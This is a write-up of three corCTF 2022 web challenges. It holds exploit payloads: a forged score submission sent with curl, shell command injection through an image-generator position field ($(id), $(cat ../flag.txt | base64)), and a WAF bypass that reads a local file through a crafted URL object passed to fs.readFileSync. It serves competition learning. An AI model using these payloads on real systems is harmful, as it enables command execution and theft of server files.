




# Cor CTF 2022 - Web 
------------------------

## Json Quiz
#### about :
- Type: web 
- Level: easy
- Points : 104

<center></center>

Going to https://jsonquiz.be.ax/ , inspecting the javascript source code i found this form : 
```javascript
    // TODO: implement scoring somehow
    // kinda lazy, ill figure this out some other time

    setTimeout(() => {
        let score = 0;
        fetch("/submit", {
            method: "POST",
            headers: {
                "Content-Type": "application/x-www-form-urlencoded"
            },
            body: "score=" + score
        })
        .then(r => r.json())
        .then(j => {
            if (j.pass) {
                $("#reward").innerText = j.flag;
                $("#pass").style.display = "block";
            }
            else {
                $("#fail").style.display = "block";
            }
        });
    }, 1250);
```
What it does is check send the final score to backend to check if the score enough to  get a reward (flag) , the questions numbered 20 ,sending the perfect mark gives the 

flag : 
    curl https://jsonquiz.be.ax/submit -d "score=20"

result : 
    {"pass":true,"flag":"corctf{th3_linkedin_JSON_quiz_is_too_h4rd!!!}"}


## Msfrog Generator: 
#### about :
- Type: web 
- Level: easy
- Points : 109

<center></center>

if we visit the website it look like this : 

<center></center>

the generate button send a POST request to /api/generate with the body: 

> [{"type":"mseyes.png;","pos":{"x":0,"y":0}}]

trying to change the type i got this error : 
> I wont pass a non existing image to a shell command lol

trying to mess with x position `x=ls` : 

> Something went wrong :
> b"convert-im6.q16: invalid argument for option `-geometry': +ls+0 @ error/convert.c/ConvertImageCommand/1672.\n"

it seems to be the beckend takes the type and x , y as key  arguments to be supplimented to a binary called convert-im6, let try some command injection with `x:"$(id)"` : 

> b"convert-im6.q16: invalid argument for option `-geometry': +uid=33(www-data) @ error/convert.c/ConvertImageCommand/1672.\n"

it works !! , i found the flag in `../flag.txt` with the payload `x:"$(cat ../flag.txt | base64)"` : 

flag : corctf{sh0uld_h4ve_r3nder3d_cl13nt_s1de_:msfrog:}

## Simple waf
#### about :
- Type: web 
- Level: meduim
- Points : 209

<center></center>

in the [source](../src/dist) code we have this code : 

```javascript
app.use((req, res, next) => {
    console.log(JSON.stringify(req.query));
    if([req.body, req.headers, req.query].some(
        (item) => item && JSON.stringify(item).includes("flag")
    )) {
        return res.send("bad hacker!");
    }
    next();
});

app.get("/", (req, res) => {
    try {
        res.setHeader("Content-Type", "text/html");
        res.send(fs.readFileSync(req.query.file || "index.html").toString());       
    }
    catch(err) {
        console.log(err);
        res.status(500).send("Internal server error");
    }
});
```

in the  node js documentation the function `fs.readFileSync` path argument can be : 
> path string | Buffer | URL | integer filename or file descriptor
we are going to exploit the fact that path can be a URL object , and since its a json format , we only need to set attribute , the URL class have special atribute :

```js
x= new URL('file://flag.txt')
console.log(x);
-> 
URL {
  href: 'file://flag.txt/',
  origin: 'null',
  protocol: 'file:',
  username: '',
  password: '',
  host: 'flag.txt',
  hostname: 'flag.txt',
  port: '',
  pathname: '/',
  search: '',
  searchParams: URLSearchParams {},
  hash: ''
}
```
the payload wil then be 
> `file[href]=file://fl%2561g.txt/&file[origin]=x&file[protocol]=file:&file[hostname]=&file[pathname]=fl%2561g.txt&file[host]=fl%2561g.txt`

flag : corctf{hmm_th4t_waf_w4snt_s0_s1mple}